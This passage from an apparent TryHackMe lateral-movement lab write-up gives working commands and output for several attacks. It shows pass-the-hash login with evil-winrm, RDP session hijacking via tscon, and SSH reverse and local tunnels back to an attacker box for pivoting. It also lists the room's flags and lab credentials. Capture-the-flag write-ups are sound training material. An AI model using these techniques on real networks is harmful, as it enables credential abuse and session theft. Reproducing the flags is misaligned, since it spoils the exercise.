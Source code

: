 ```bash
         * DPAPI    : 489fed8eeb5acc4ffb205663491b62d3    
                  
[....More Stuff....]   

┌──(kali㉿kali)-[~/TryHackMe]
└─$ evil-winrm -i 10.200.51.201 -u t1_toby.beck -H 533f1bd576caa912bdb9da284bbc60fe
*Evil-WinRM* PS C:\Users\t1_toby.beck\Desktop> .\Flag.exe
THM{NO_PASSWORD_NEEDED}

```

## Task 6  Abusing User Behaviour
+ What flag did you get from hijacking t1_toby.beck's session on THMJMP2?`THM{NICE_WALLPAPER}`

+ New Credential `t2_eric.harding:Kegq4384`

```bash
┌──(kali㉿kali)-[~/TryHackMe]
└─$ xfreerdp /v:thmjmp2.za.tryhackme.com /u:t2_eric.harding /p:Kegq4384


C:\Windows\system32>query user
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
 t1_toby.beck5                             2  Disc            .  1/17/2024 12:00 PM
 t1_toby.beck                              3  Disc            1  1/17/2024 12:09 PM
 t1_toby.beck1                             4  Disc            .  1/17/2024 12:09 PM
 t1_toby.beck2                             5  Disc            .  1/17/2024 12:10 PM
 t1_toby.beck3                             6  Disc            .  1/17/2024 12:10 PM
 t1_toby.beck4                             7  Disc            .  1/17/2024 12:10 PM
 natasha.howells                           8  Disc            5  1/17/2024 12:39 PM
 t2_felicia.dean                           9  Disc           38  1/17/2024 1:03 PM
 t2_eric.harding       rdp-tcp#68         10  Active          .  1/17/2024 1:48 PM

C:\Windows\system32>tscon 3 /dest:rdp-tcp#68

THM{NICE_WALLPAPER}
```

## Task 7  Port Forwarding
+ What is the flag obtained from executing "flag.exe" on t1_thomas.moore's desktop on THMIIS?`THM{SIGHT_BEYOND_SIGHT}`
+ What is the flag obtained using the Rejetto HFS exploit on THMDC? `THM{FORWARDING_IT_ALL}`

+ New Credential `jasmine.stanley:G0O6Zd5aM`
```bash
C:\> ssh tunneluser@10.50.49.50 -R 3389:10.200.51.101:3389 -N

┌──(kali㉿kali)-[~/TryHackMe]
└─$ xfreerdp /v:127.0.0.1 /u:t1_thomas.moore /p:MyPazzw3rd2020
THM{SIGHT_BEYOND_SIGHT}


C:\> ssh tunneluser@10.50.49.50 -R 8888:thmdc.za.tryhackme.com:80 -L *:6666:127.0.0.1:6666 -L *:7878:127.0.0.1:7878 -N


C:\hfs>type flag.txt
type flag.txt
THM{FORWARDING_IT_ALL}
```
## Task 8  Conclusion